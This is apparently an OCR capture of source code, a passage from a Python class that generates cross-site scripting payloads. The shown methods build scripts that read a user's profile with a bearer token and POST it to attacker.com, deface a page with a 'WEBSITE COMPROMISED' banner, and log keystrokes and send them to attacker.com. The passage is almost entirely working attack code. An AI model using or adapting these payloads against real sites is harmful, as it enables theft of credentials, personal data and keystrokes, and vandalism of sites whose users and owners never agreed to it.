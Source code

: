                 // Also try to get user profile data
                fetch('/api/users/profile', {
                    headers: {'Authorization': 'Bearer ' + token}
                })
                .then(r => r.json())
                .then(userData => {
                    fetch('http://attacker.com/steal-profile', {
                        method: 'POST',
                        body: JSON.stringify(userData)
                    });
                });
            }
        })();
        </script>
        """
        
        return hijack_payload
    
    def exploit_xss_for_defacement(self):
        """Create XSS payload for website defacement"""
        print(f"\n[+] Creating defacement payload...")
        
        defacement_payload = """
        <script>
        document.body.innerHTML = `
            <div style="background: red; color: white; text-align: center; padding: 50px; font-size: 24px;">
                <h1>🚨 WEBSITE COMPROMISED 🚨</h1>
                <p>This site has been hacked via XSS vulnerability</p>
                <p>All user data may be compromised</p>
                <p>Contact security team immediately</p>
            </div>
        `;
        document.title = "HACKED - XSS Vulnerability";
        </script>
        """
        
        return defacement_payload
    
    def exploit_xss_for_keylogging(self):
        """Create XSS payload for keylogging"""
        print(f"\n[+] Creating keylogging payload...")
        
        keylogger_payload = """
        <script>
        (function() {
            let keystrokes = '';
            let lastSend = Date.now();
            
            document.addEventListener('keypress', function(e) {
                keystrokes += e.key;
                
                // Send keystrokes every 50 characters or 30 seconds
                if (keystrokes.length > 50 || (Date.now() - lastSend) > 30000) {
                    fetch('http://attacker.com/keylog', {
                        method: 'POST',
                        headers: {'Content-Type': 'application/json'},
                        body: JSON.stringify({
                            keys: keystrokes,
                            url: window.location.href,
                            timestamp: Date.now()
                        })
                    });
                    keystrokes = '';
                    lastSend = Date.now();
                }
            });
            